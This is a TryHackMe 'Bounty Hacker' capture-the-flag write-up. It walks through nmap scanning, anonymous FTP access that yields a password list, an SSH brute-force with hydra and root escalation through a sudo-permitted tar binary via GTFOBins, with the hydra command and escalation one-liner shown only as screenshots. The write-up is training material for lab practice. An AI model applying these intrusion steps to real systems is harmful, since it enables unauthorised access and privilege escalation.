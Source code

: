 ```yaml
---

title: THM | Bounty Hacker
date: 2020-08-17 16:00:00 +5:30
description: The Following Post is writeup of bountyhacker room of tryhackme # Add post description (optional)
categories: [CTF, THM]
tags: [hydra, gtfobins, ftp] # add tag

---
```


## Description:

The following post is writeup of the Bounty Hacker room from tryhackme <https://tryhackme.com/room/cowboyhacker>

# Information Gathering
### Nmap
```
adam@harambe:~$ nmap -sVC -v 10.10.219.20
```
```
PORT      STATE  SERVICE         REASON       VERSION
21/tcp    open   ftp             syn-ack      vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.11.75
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open   ssh             syn-ack      OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCgcwCtWTBLYfcPeyDkCNmq6mXb/qZExzWud7PuaWL38rUCUpDu6kvqKMLQRHX4H3vmnPE/YMkQIvmz4KUX4H/aXdw0sX5n9jrennTzkKb/zvqWNlT6zvJBWDDwjv5g9d34cMkE9fUlnn2gbczsmaK6Zo337F40ez1iwU0B39e5XOqhC37vJuqfej6c/C4o5FcYgRqktS/kdcbcm7FJ+fHH9xmUkiGIpvcJu+E4ZMtMQm4bFMTJ58bexLszN0rUn17d2K4+lHsITPVnIxdn9hSc3UomDrWWg+hWknWDcGpzXrQjCajO395PlZ0SBNDdN+B14E0m6lRY9GlyCD9hvwwB
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMCu8L8U5da2RnlmmnGLtYtOy0Km3tMKLqm4dDG+CraYh7kgzgSVNdAjCOSfh3lIq9zdwajW+1q9kbbICVb07ZQ=
|   256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICqmJn+c7Fx6s0k8SCxAJAoJB7pS/RRtWjkaeDftreFw
80/tcp    open   http            syn-ack      Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
From the above output we learn that ports **21**, **22**, and **80** are open. FTP being open is the first thing I noticed, and more importantly, that anonymous login is allowed. Let's go check it out.

# FTP

![alt text](https://i.imgur.com/FWnPcYL.png)

There are two .txt files being hosted on the ftp server:
**locks.txt** - contains a list of complex passwords.
**task.txt** - contains arbitrary tasks, but is signed by Lin (username)
With these two pieces of information it is now possible to attempt to bruteforce the ssh login.

# SSH
### Hydra
![alt text](https://i.imgur.com/wDSgYZ1.png)
Using the username and password list with hydra confirms valid SSH credentials to gain an initial foothold. 
# User Flag

```
lin@bountyhacker:~/Desktop$ ls -la
total 12
drwxr-xr-x  2 lin lin 4096 Jun  7 17:06 .
drwxr-xr-x 19 lin lin 4096 Jun  7 22:17 ..
-rw-rw-r--  1 lin lin   21 Jun  7 17:06 user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{REDACTED}
```
First flag found just like that. Now, at this point there's many ways to start poking around to see how you are going to **escalate your privileges**. Since I have the current user's password, I like to check their **sudo permissions**. 

### Priv Esc:
```
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
I know that the tar binary has a sudo priv esc over at [GTFOBins](https://gtfobins.github.io/)
![alt text](https://i.imgur.com/A9UEJAD.png)
ez one-liner ftw??
![alt text](https://i.imgur.com/TEz5F6j.png)
Yup
# Root Flag
Only one thing left to do so let's check the usual location of the flag.
```
root@bountyhacker:~/Desktop# cd /root
root@bountyhacker:/root# ls -la
total 40
drwx------  5 root root 4096 Jun  7 21:31 .
drwxr-xr-x 24 root root 4096 Jun  6 06:36 ..
-rw-------  1 root root 2694 Jun  7 22:25 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwx------  2 root root 4096 Feb 26  2019 .cache
drwxr-xr-x  2 root root 4096 Jun  7 15:00 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   19 Jun  7 17:16 root.txt
-rw-r--r--  1 root root   66 Jun  7 21:13 .selected_editor
drwx------  2 root root 4096 Jun  7 19:29 .ssh
root@bountyhacker:/root# cat root.txt
THM{*REDACTED*}
```

That's it, machine rooted. 